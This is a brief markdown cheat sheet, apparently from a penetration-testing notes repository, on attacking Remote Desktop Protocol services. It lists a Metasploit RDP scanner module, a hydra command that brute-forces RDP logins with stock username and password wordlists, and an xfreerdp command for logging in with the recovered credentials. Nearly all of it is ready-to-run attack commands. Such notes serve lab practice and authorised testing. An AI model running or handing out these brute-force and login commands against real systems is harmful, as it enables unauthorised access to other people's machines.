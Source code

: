 # Exploiting RDP

RDP can be configured to run on a different port than 3389.

## Metasploit

```service postgresql start && msfconsole```  
Module: auxiliary/scanner/rdp/rdp_scanner  

## Brute Force RDP
```hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://(target IP address)```  
if the port is different, use ```-s (port number)```  

## Authenticating with target via RDP
**xfreerdp** -- Tool used to connect via RDP  
```xfreerdp /u:(username) /p:(password) /v:(Ip address):(port)``` 


